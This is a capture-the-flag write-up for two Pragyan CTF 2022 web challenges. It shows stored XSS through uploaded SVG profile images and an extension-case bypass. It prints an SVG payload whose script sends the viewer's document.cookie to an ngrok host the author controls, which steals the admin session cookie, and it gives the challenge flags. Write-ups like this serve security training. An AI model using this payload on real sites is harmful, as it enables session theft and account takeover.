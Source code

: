 ```yaml
---
title: Pragyan CTF 2022
published: 2022-03-06
description: Challenge walkthrough's
image: ./prag.jpg
tags: [ctf, web, xss]
category: CTF
draft: false      # Set only if the post's language differs from the site's language in `config.ts`
---
```


## Chall Name : Excess Cookie V1 

> Description : You need to get logged in as admin to complete this challenge.

On visiting the challenge link,it shows normal login and register page.Created the user account and get logged in as normal user.

![Screenshot](https://raw.githubusercontent.com/0xRamInf0sec/WebCTF-writeups/refs/heads/main/screenshots/sreenshot1.png "Screenshot")

It has the image uploading functionality and i tried to popup the XSS using SVG

> Scalable Vector Graphics(SVG) is an XML-based vector image format for two-dimensional graphics with support for interactivity and animation.

I have the common payload used for fire the XSS using SVG,Here is the payload!!
```

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
   alert(1);
   </script>
</svg>

```

Here,the website having another functionality which was report the user.If i report any user admin will look into that user profile.
So,What i done was,

Open the terminal and started python http server and open another tab and started  ngrok with the port which is used for python http server

![Screenshot](https://raw.githubusercontent.com/0xRamInf0sec/WebCTF-writeups/refs/heads/main/screenshots/screensho2.png "Screenshot")

Alter the payload like this, 

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
var i=new Image;
i.src="http://8eb8-59-98-37-253.ngrok.io/?"+document.cookie;
   
   </script>
</svg>
```
And upload it as the profile picture,after that copy the userid and report it to the admin.
And the ADMIN cookie stealed!!

![Screenshot](https://raw.githubusercontent.com/0xRamInf0sec/WebCTF-writeups/refs/heads/main/screenshots/admincookie.png "Screenshot")

Change auth cookie to this admin cookie, We found the FLAG !!

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r} 
```

## Chall Name : Excess Cookie V2

> Description : Last challenge vulnerabilities are fixed. Try to solve this.

Same as per first challenge,but svg extension was not accepted.
So,there was a way for bypassing it by renaming the extension as "filename.sVG" and uploaded this ,the site accpeted this svg and XSS fired!!!

There was no change in the payload ,using the same steps what i have done in V1 is enough to get the admin cookie

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r_on1y_w1th_http_0nly} 
```


